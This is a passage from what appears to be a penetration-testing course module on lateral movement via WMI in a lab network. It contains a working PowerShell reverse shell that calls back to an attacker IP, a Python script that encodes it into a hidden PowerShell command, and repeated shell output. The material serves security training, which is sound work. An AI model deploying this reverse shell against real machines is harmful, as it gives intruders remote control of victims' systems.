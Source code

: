 Verifying the active processes on the target machine reveals that a new calculator process has been launched, confirming that our attack has succeeded.

![Figure 1: Inspecting The Task Manager](https://static.offsec.com/offsec-courses/PEN-200/imgs/ad_lat_movement/53bbc5aa681c96dbeb7a8a24331a7d39-calc.png)

Figure 1: Inspecting The Task Manager

Info

The PID of win32calc.exe is different from the PID in Listing 1 because the PID in Listing 1 belongs to calc.exe. When the wmic command in Listing 1 runs, it creates the process of calc.exe, which starts another process win32calc.exe, then calc.exe exits, leaving win32calc.exe running.

To further improve our craft, let's replace the previous payload with a full reverse shell written in PowerShell.

First, we'll encode the PowerShell reverse shell, so we don't need to escape any special characters when inserting it as a WMI payload.

The following Python code encodes the PowerShell reverse shell to base64 contained in the _payload_ variable and then prints the result to standard output.

Reviewing the entire PowerShell payload is outside the scope of this Module.

We need to replace the highlighted IP and port with the ones of our attacker Kali machine.

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

> Listing 6 - Executing the WMI PowerShell payload.

Once we have saved the Python script, we can run it and retrieve the output to use later.

```
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

> Listing 7 - Running the base64 encoder Python script

After setting up a Netcat listener on port 443 on our Kali machine, we can move on to client74 and run the PowerShell WMI script with the newly generated encoded reverse shell payload.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname